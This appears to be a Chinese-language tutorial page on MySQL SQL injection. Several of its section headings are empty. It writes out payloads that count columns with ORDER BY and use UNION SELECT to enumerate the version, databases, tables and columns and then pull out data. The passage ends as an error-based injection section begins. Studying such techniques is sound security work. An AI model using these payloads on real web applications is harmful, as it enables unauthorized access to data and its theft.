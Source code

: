 
<br>
<br>
<br>
# 寻找注入点


<br>
<br>
<br>
# MYSQL确认注入点

<br>
<br>
<br>
# 利用SQL注入

## MYSQL联合注入

### 确定字段数
利用ORDER BY来判断目前语句中的字段数，方便后期的联合
```
id=1 ORDER BY 5 #  报错，说明小于5列
id=1 ORDER BY 3 #  正常，说明可能是3列，也可能是4列
id=1 ORDER BY 4 #  正常，说明是4列
```

### 联合查询
UNION可以将两个表的内容联合到一起，那么关于后面联合的内容，就完全由我们自己去制定
UNION中几个重要的条件
 - Union必须由两条或者两条以上的SELECT语句组成，语句之间使用Union链接
 - Union中的每个查询必须包含相同的列、表达式或者聚合函数，他们出现的顺序可以不一致（这里指查询字段相同，表不一定一样）
 - 列的数据类型必须兼容，兼容的含义是必须是数据库可以隐含的转换他们的类型


**实例**
```
id=0 UNION SELECT 1,2,3,4 # 回显1,2,3,4中的内容
id=0 UNION SELECT 1,2,VERSION(),DATABASE() # 获得版本号和当前数据库名
id=0 UNION SELECT 1,2,3,GROUP_CONCAT(schema_name) FROM information_schema.schemata # 获得所有数据库名
id=0 UNION SELECT 1,2,3,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='库名' # 获得某数据库表名
id=0 UNION SELECT 1,2,3,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='表名' # 获得某表列名
id=0 UNION SELECT 1,2,3,GROUP_CONCAT(列名) FROM 表名 # 获得数据
```


<br>
## MYSQL报错注入
当WEB应用能返回SQL的报错信息时，我们可以把想要的数据通过报错信息带出。
